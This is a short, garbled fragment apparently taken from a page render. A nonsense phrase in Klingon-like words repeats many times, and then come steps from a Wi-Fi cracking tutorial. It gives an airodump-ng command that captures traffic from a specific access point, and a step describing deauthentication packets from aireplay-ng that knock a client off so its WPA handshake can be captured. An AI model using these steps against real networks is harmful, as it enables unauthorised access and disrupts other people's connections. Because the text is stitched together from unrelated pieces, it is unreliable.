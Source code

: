 vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam 'e' vItlhutlhvam
```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```
3. To increase the chance of capturing a handshake, momentarily disconnect the client from the network to force a re-authentication. This can be done using the `aireplay-ng` command, which sends deauthentication packets to the client:
